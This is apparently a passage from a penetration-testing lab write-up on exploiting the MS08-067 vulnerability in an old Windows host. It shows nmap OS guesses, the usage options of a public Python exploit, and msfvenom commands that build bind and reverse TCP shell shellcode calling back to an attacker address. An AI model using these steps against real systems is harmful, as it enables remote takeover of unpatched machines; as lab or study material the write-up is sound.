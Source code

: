 No exact match, but the aggressive guesses at 92% are either
- Microsoft Windows XP SP2 or Windows Small Business Server 2003
- Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3

SP2 isn't listed as an opton.  Tried options 6 and 7 for SP3, but no luck.

Scrapping this script, I hit Google: "MS08-67 Python SP2 SP3"

Came across a few versions, but one was updated fairly recently in mid 2018.
https://github.com/andyacer/ms08_067


Here the options for ms08_067_2018.py are a bit different:

`
# git clone https://github.com/andyacer/ms08_067/git
# grep "Example:" ms08_067_2018.py 
                print 'Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445'
                print 'Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)'
                print 'Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal'
                print 'Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English'
                print 'Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)'
                print 'Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)'
                print 'Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)'
`

And of course we need to generate a payload.

`
# grep msfvenom ms08_067_2018.py 

# Example msfvenom commands to generate shellcode:
# msfvenom -p windows/shell_bind_tcp RHOST=10.11.1.229 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
`
